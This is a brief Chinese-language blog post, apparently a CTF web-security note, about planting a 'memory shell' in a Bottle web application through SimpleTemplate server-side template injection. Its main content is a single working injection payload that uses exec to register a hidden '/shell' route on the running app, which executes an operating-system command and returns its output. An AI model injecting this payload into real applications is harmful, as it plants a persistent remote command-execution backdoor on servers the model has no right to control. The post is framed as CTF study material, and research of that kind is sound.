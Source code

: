 ```yaml
---
title: Bottle内存马详解
toc: true
categories:
  - 技术
  - ctf
  - web
date: 2025-05-11 12:43:47
tags: 
---
```


本篇以Bottle的SimpleTemplate ssti研究内存马

大概看了下跟flask差不多呢，摆了，下班

```py
{{exec("""
@app.route('/shell')
def g():
    return __import__('os').popen('whoami').read()""",{"app":__import__('sys').modules['__main__'].__dict__['app']})}}
```

```

```

